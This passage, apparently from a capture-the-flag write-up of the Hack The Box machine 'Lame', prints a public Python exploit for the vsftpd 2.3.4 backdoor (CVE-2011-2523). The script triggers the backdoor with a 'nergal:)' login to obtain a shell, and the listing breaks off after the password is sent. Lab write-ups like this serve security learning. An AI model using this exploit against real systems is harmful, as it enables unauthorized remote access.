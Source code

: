 Before running an exploit I like to look at the exploit to make sure it is "safe" and there is no backdoor or unintended things happening. It looks pretty good to me. It will connect to the server using the username `nergal:)` and then spawn a shell. 
```python
┌─[zon@pwn]─[~/htb/lame]                                                                                                                          
└──╼ $cat 49757.py                                                                                                                                
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution                                                                                        
# Date: 9-04-2021                                                                                                                                 
# Exploit Author: HerculesRD                                                                                                                      
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html                                                        
# Version: vsftpd 2.3.4                                                                                                                           
# Tested on: debian                                                      
# CVE : CVE-2011-2523                                                                                                                             
                                                                                                                                                  
#!/usr/bin/python3                                                                                                                                
                                                                                                                                                  
from telnetlib import Telnet                                                                                                                      
import argparse                                                          
from signal import signal, SIGINT                                                                                                                 
from sys import exit                                                                                                                              
                                                                                                                                                  
def handler(signal_received, frame):                                                                     
    # Handle any cleanup here                                                                  
    print('   [+]Exiting...')                                                                                                                     
    exit(0)                                                                                                                                       
                                                                         
signal(SIGINT, handler)                                                                                                                           
parser=argparse.ArgumentParser()                                         
parser.add_argument("host", help="input the address of the vulnerable host", type=str)                                                            
args = parser.parse_args()                                                                     
host = args.host                                                                               
portFTP = 21 #if necessary edit this line                                                                                                         
                                                                         
user="USER nergal:)"                           
password="PASS pass"                           
                                               
tn=Telnet(host, portFTP)                                                                       
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line                                           
tn.write(user.encode('ascii') + b"\n")                                                                   
tn.read_until(b"password.") #if necessary, edit this line                                                
tn.write(password.encode('ascii') + b"\n")                                                               

```
